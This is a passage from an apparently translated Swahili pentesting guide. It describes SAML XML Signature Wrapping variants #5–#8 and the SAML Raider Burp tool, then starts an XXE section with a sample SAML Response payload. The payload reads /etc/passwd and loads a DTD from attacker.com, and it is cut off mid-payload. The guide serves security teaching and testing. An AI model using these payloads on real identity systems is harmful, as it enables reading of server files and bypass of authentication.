 ![https://epi052.gitlab.io/notes-to-self/img/saml/xsw-4.svg](<../../images/image (551).png>)

### XSW #5

- **Nafasi ya Kipekee**: Wala Saini wala Uthibitisho wa asili haufuati mipangilio ya kawaida (iliyofungwa/iliyofunga/isiyo na kifurushi).
- **Madhara**: Uthibitisho ulioiga unafunga Saini, ukibadilisha muundo wa hati inayotarajiwa.

![https://epi052.gitlab.io/notes-to-self/img/saml/xsw-5.svg](<../../images/image (1030).png>)

### XSW #6

- **Mkakati**: Kuingiza mahali sawa kama XSW #4 na #5, lakini kwa mabadiliko.
- **Madhara**: Uthibitisho ulioiga unafunga Saini, ambayo kisha inafunga Uthibitisho wa asili, ikiumba muundo wa udanganyifu wa ndani.

![https://epi052.gitlab.io/notes-to-self/img/saml/xsw-6.svg](<../../images/image (169).png>)

### XSW #7

- **Mkakati**: Kipengele cha Extensions kinatiwa na uthibitisho ulioiga kama mtoto.
- **Madhara**: Hii inatumia muundo wa chini wa schema wa kipengele cha Extensions ili kupita hatua za uthibitishaji wa schema, hasa katika maktaba kama OpenSAML.

![https://epi052.gitlab.io/notes-to-self/img/saml/xsw-7.svg](<../../images/image (971).png>)

### XSW #8

- **Tofauti na XSW #7**: Inatumia kipengele kingine cha XML kisichokuwa na vikwazo kwa toleo la mashambulizi.
- **Madhara**: Uthibitisho wa asili unakuwa mtoto wa kipengele kisichokuwa na vikwazo, ukirekebisha muundo ulio tumika katika XSW #7.

![https://epi052.gitlab.io/notes-to-self/img/saml/xsw-8.svg](<../../images/image (541).png>)

### Chombo

Unaweza kutumia nyongeza ya Burp [**SAML Raider**](https://portswigger.net/bappstore/c61cfa893bb14db4b01775554f7b802e) kuchambua ombi, kutekeleza mashambulizi yoyote ya XSW unayochagua, na kuanzisha.

## XXE

Ikiwa hujui ni aina gani za mashambulizi ni XXE, tafadhali soma ukurasa ufuatao:

{{#ref}}
../xxe-xee-xml-external-entity.md
{{#endref}}

Majibu ya SAML ni **hati za XML zilizopunguzwa na zilizokodishwa kwa base64** na zinaweza kuwa na udhaifu wa mashambulizi ya XML External Entity (XXE). Kwa kubadilisha muundo wa XML wa Jibu la SAML, washambuliaji wanaweza kujaribu kutumia udhaifu wa XXE. Hapa kuna jinsi mashambulizi kama haya yanaweza kuonyeshwa:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY    file SYSTEM "file:///etc/passwd">
<!ENTITY dtd SYSTEM "http://www.attacker.com/text.dtd" >]>
<samlp:Response ... ID="_df55c0bb940c687810b436395cf81760bb2e6a92f2" ...>
<saml:Issuer>...</saml:Issuer>
<ds:Signature ...>
<ds:SignedInfo>
<ds:CanonicalizationMethod .../>
<ds:SignatureMethod .../>
```